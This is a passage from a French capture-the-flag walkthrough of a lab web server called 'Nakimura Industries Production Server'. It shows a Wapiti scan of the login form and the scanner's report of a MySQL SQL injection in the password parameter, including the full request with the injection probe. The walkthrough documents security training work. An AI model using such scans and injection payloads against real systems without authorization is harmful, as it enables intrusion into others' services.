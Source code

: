 ## Web vuln 101

On débarque sur la page web de `Nakimura Industries Production Server`.

Il y a un formulaire de login présent. Je lance tout de suite Wapiti qui me trouve une faille SQL :

```shellsession
$ wapiti -u http://192.168.242.135/ -v2 --color
ujson module not found, using json

     __    __            _ _   _ _____
    / / /\ \ \__ _ _ __ (_) |_(_)___ /
    \ \/  \/ / _` | '_ \| | __| | |_ \
     \  /\  / (_| | |_) | | |_| |___) |
      \/  \/ \__,_| .__/|_|\__|_|____/
                  |_|                 
Wapiti 3.1.4 (wapiti-scanner.github.io)
[+] GET http://192.168.242.135/ (0)
[+] GET http://192.168.242.135/?page=login.php (1)
[+] GET http://192.168.242.135/index.php (1)
[+] POST http://192.168.242.135/index.php?page=login.php (2)
        data: user_name=alice&password=Letm3in_&Submit_button=Submit
[+] GET http://192.168.242.135/index.php?page=login.php (2)
[*] Saving scan state, please wait...
[*] Wapiti found 5 URLs and forms during the scan
[*] Existing modules:
         backup, brute_login_form, buster, cookieflags, crlf, csp, csrf, drupal_enum, exec, file, htaccess, htp, http_headers, log4shell, methods, nikto, permanentxss, redirect, shellshock, sql, ssl, ssrf, takeover, timesql, wapp, wp_enum, xss, xxe
--- snip ---
[*] Launching module sql
--- snip ---
---
SQL Injection (DBMS: MySQL) in http://192.168.242.135/index.php via injection in the parameter password
Evil request:
    POST /index.php?page=login.php HTTP/1.1
    host: 192.168.242.135
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.135/?page=login.php
    content-length: 69
    Content-Type: application/x-www-form-urlencoded

    user_name=alice&password=Letm3in_%C2%BF%27%22%28&Submit_button=Submit
---
```
